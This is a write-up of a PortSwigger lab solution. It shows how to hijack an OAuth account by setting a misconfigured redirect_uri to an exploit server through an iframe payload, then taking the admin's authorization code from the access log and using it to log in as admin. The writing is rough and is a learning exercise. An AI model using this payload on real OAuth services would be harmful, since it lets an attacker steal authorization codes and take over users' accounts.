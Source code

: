 # OAuth account hijacking via redirect_uri

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

## To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in with your own social media account using the following credentials: `wiener:peter`.

### HINT:
```javascript
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

step 1
it will use as payload Hint and marked are same
![[lab3_http_histroy_auth.png]]


![[lab3_code_generated.png]]



step 2
send step 1 to repeater 
302 found
and ready for payload

![[lab3_send_auth_client_id_to_repeater.png]]

step 3
add payload
```javascript
<iframe src="https://oauth-0a32008e030e1bbe82ab688d02d00091.oauth-server.net/auth?client_id=m1rm32vafm9mw7sif225q&redirect_uri=https://exploit-0a92008803f01bcc822269b801a40040.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

store and view exploit
![[lab3_add_payload_exploit.png]]


click exploit deliver to victim
and click on access log

step 5
go to access log
![[lab3_access_log_code.png]]
`code=qWnjr56jtzVQEsOUA022bkr3ZijMy049QoEC3ksEqKY`

step 6
copy code replace and forward request

![[lab3_intercept_login_replace_code.png]]


step 7
you will get admin panel

![[lab3_admin_panel.png]]


delete carlos account solved lab

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab3_solved_lab.png]]